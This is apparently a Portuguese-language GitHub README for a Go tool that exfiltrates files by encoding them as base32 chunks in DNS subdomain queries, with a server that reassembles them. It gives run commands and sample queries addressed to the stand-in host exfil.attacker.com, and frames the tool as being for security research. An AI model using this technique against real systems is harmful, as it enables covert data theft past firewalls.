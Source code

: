 <img src="https://capsule-render.vercel.app/api?type=rounded&height=300&color=gradient&text=dns-exfil-go" img/>

----
Ferramenta escrita em Go para **exfiltração de dados via requisições DNS**, utilizando codificação base32 e fragmentação em subdomínios.


## 📌 Visão Geral

Este projeto simula uma técnica avançada usada por agentes maliciosos para **vazar dados através de requisições DNS**, contornando firewalls e bloqueios de HTTP/HTTPS. O cliente lê um arquivo, fragmenta, codifica e envia cada pedaço como subdomínio. O servidor intercepta as queries DNS, reagrupa os pedaços e reconstrói o conteúdo original.

---

## ⚙️ Estrutura do Projeto

```

dns-exfil-go/
├── client.go           # Cliente que exfiltra um arquivo via DNS
├── server.go           # Servidor DNS que intercepta e reconstrói os dados
├── utils.go            # Funções auxiliares (base32 e chunking)
├── LICENSE             # Licença MIT
└── README.md           # Este arquivo

```

---

## 🔁 Como Funciona

1. O cliente lê um arquivo local (`data.txt`) e divide o conteúdo em pedaços.
2. Cada pedaço é codificado em Base32.
3. É criada uma query DNS do tipo A com o formato:  
```

\<chunk\_base32>.\<session\_id>.<ordem>.exfil.attacker.com

````
4. O servidor DNS escuta as requisições na porta 5353 (UDP), agrupa os chunks por sessão e reconstrói os dados ao detectar o chunk finalizador (`END_OF_SESSION`).

---

## 🚀 Como Usar

### ⚙️ Requisitos

- Go 1.16 ou superior
- Biblioteca: `github.com/miekg/dns` (instalada com `go mod tidy`)

---

### 🛰️ Rodar o Servidor

```bash
cd dns-exfil-go
go run server.go
````

* O servidor escuta por requisições na porta `5353/udp`.
* O arquivo reconstruído será salvo como: `exfiltrated_data_<session>.bin`

---

### 🧪 Rodar o Cliente

```bash
go run client.go
```

* O cliente cria um arquivo de teste (`data.txt`), lê, fragmenta e envia via DNS.
* Os dados são enviados para `127.0.0.1:5353` com domínio base `exfil.attacker.com` (configure conforme seu setup).

---

## 🔐 Exemplo de Requisição DNS Enviada

```
U3RyaW5nMQ.session42.0.exfil.attacker.com
U3RyaW5nMg.session42.1.exfil.attacker.com
RU5EX09GX1NFU1NJT04.session42.2.exfil.attacker.com
```

---

## 🧯 Aviso Ético

> Esta ferramenta foi criada **exclusivamente para fins educacionais e de pesquisa em segurança**.
> Qualquer uso não autorizado, especialmente em sistemas que você não possui ou não tem permissão explícita para testar, é ilegal.
> Os autores não se responsabilizam por qualquer uso indevido deste código.

---

## 🧠 Referências Técnicas

* [Red Teaming with DNS Exfiltration](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/data-exfiltration-over-dns)
* [miekg/dns - Go DNS lib](https://github.com/miekg/dns)
* [Base32 Encoding RFC 4648](https://datatracker.ietf.org/doc/html/rfc4648)

---

## 🧑‍💻 Autor

**Felipe Gonçalves Costa**
Especialista em Segurança Ofensiva · Bug Hunter · Exploit Developer
[GitHub](https://github.com/SEU_USUARIO_AQUI) • [LinkedIn](https://linkedin.com/in/felipe-gonçalves-costa-b26b72346)

---

## 📄 Licença

Distribuído sob licença [MIT](LICENSE).

